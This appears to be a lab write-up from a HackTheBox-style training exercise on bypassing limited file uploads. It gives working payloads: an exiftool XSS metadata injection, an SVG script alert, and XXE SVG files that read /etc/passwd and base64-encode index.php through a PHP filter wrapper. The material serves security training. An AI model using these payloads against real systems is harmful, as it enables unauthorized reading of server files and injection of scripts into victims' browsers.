# Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
---


We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)
